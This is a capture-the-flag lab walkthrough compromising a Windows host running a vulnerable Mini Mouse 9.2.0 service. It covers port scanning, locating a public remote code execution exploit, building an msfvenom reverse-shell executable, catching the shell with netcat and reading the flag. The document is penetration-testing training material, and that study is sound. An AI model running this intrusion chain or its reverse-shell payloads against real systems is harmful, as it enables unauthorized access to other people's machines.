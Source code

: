 # 0. Sources

|||
|---|---|
|[YouTube](https://www.youtube.com/watch?v=MD5GIbatPg8)|[Download](https://drive.google.com/file/d/1K5_YA76DVtICHst2FlLVjq68dgNkMgRX/view)|

# 1. nmap scan

```console
┌──(root㉿kali)-[~]
└─$ nmap -p- -A 10.0.88.33
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-27 10:40 +08
Nmap scan report for 10.0.88.33
Host is up (0.017s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows 10 Pro 14393 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=mousekatoo
| Not valid before: 2022-11-26T02:39:44
|_Not valid after:  2023-05-28T02:39:44
|_ssl-date: 2022-11-27T02:42:53+00:00; 0s from scanner time.
| rdp-ntlm-info:
|   Target_Name: MOUSEKATOO
|   NetBIOS_Domain_Name: MOUSEKATOO
|   NetBIOS_Computer_Name: MOUSEKATOO
|   DNS_Domain_Name: mousekatoo
|   DNS_Computer_Name: mousekatoo
|   Product_Version: 10.0.14393
|_  System_Time: 2022-11-27T02:42:39+00:00
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8039/tcp  open  unknown
| fingerprint-strings:
|   FourOhFourRequest, GetRequest, HTTPOptions, RTSPRequest, SIPOptions:
|     HTTP/1.1 404 OK
|     Server: bruce_wy/1.0.0
|     Access-Control-Allow-Methods: POST,GET,TRACE,OPTIONS
|     Access-Control-Allow-Headers: Content-Type,Origin,Accept
|     Access-Control-Allow-Origin: *
|     Access-Control-Allow-Credentials: true
|     P3P: CP=CAO PSA OUR
|     Content-Type: text/html
|     Content-Range: bytes 0-0/-1
|_    Content-Length : 4294967295
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
⋮
```

# 2. Checking for exploits

Port `8039` returned HTTP data

Searching for the `Server: bruce_wy/1.0.0` information on google leads us to a [Mini Mouse 9.2.0 Path Traversal exploit](https://www.exploit-db.com/exploits/49744)

Path traversal isn't exactly useful, let's search if there are more `mini mouse` exploits

```console
┌──(root㉿kali)-[~]
└─$ searchsploit mini mouse
-------------------------------------------- ---------------------------------
 Exploit Title                              |  Path
-------------------------------------------- ---------------------------------
Mini Mouse 9.2.0 - Path Traversal           | windows/webapps/49744.txt
Mini Mouse 9.2.0 - Remote Code Execution    | windows/webapps/49743.py
Mini Mouse 9.3.0 - Local File inclusion     | ios/webapps/49747.txt
-------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The RCE exploit looks interesting, let's try that

☝️ A faster method is to google for `8039 site:www.exploit-db.com`, which will also return the Mini Mouse RCE exploit as a result

# 3. Targeting the Mini Mouse service

Aanalyzing the exploit code shows that it executes a selected payload:

```console
┌──(root㉿kali)-[~]
└─$ searchsploit -m 49743
  Exploit: Mini Mouse 9.2.0 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49743
     Path: /usr/share/exploitdb/exploits/windows/webapps/49743.py
File Type: Python script, ASCII text executable

Copied to: /home/kali/49743.py

┌──(root㉿kali)-[~]
└─$ cat 49743.py
⋮
ip = input("target's ip:  ")
lhost = input("local http server ip: ")
name = input("payload file name: ")
url = "http://{}:8039/op=command".format(ip)
⋮
```

# 4. Getting a shell

Generate reverse shell executable and place in web server root:

(Apache2 is already running with DocumentRoot at `/var/www/html`)

```console
┌──(root㉿kali)-[~]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o /var/www/html/reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/reverse.exe

Open another console window on Kali to listen for connections:

```console
┌──(root㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
```

Run the exploit and get our shell:

```console
┌──(root㉿kali)-[~]
└─$ python3 49743.py
Traceback (most recent call last):
  File "/home/kali/49743.py", line 12, in <module>
    import jsonargparse
ModuleNotFoundError: No module named 'jsonargparse'

┌──(root㉿kali)-[~]
└─$ pip install jsonargparse
Defaulting to user installation because normal site-packages is not writeable
Collecting jsonargparse
  Downloading jsonargparse-4.17.0-py3-none-any.whl (165 kB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 165.3/165.3 kB 6.3 MB/s eta 0:00:00
Requirement already satisfied: PyYAML>=3.13 in /usr/lib/python3/dist-packages (from jsonargparse) (5.4.1)
Installing collected packages: jsonargparse
Successfully installed jsonargparse-4.17.0

┌──(root㉿kali)-[~]
└─$ python3 49743.py
target's ip:  10.0.88.33
local http server ip: kali.vx
payload file name: reverse.exe
[+] Retrieving payload
200
[+] got shell!
```

Verify that the reverse shell has hooked on from the listener console

```cmd
connect to [192.168.17.10] from (UNKNOWN) [10.0.88.51] 49786
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Mini Mouse>whoami
whoami
mousekatoo\mickey
```

Excellent, we now have shell on the target

# 5. Getting the proof

Since we know that the proof is a file on the user's desktop, let's get straight to it

```cmd
C:\Program Files (x86)\Mini Mouse>cd %USERPROFILE%
cd %USERPROFILE%

C:\Users\Mickey>dir /s *flag.txt*
dir /s *flag.txt*
 Volume in drive C has no label.
 Volume Serial Number is DA18-B95C

 Directory of C:\Users\Mickey\AppData\Roaming\Microsoft\Windows\Recent

09/14/2021  10:46 PM               632 flag.txt.lnk
               1 File(s)            632 bytes

 Directory of C:\Users\Mickey\Desktop

09/14/2021  10:48 PM                73 flag.txt.txt
               1 File(s)             73 bytes

     Total Files Listed:
               2 File(s)            705 bytes
               0 Dir(s)  42,366,476,288 bytes free

C:\Users\Mickey>type Desktop\flag.txt.txt
type Desktop\flag.txt.txt
the more you hack, the better you become

- i.t security labs (youtube)
```
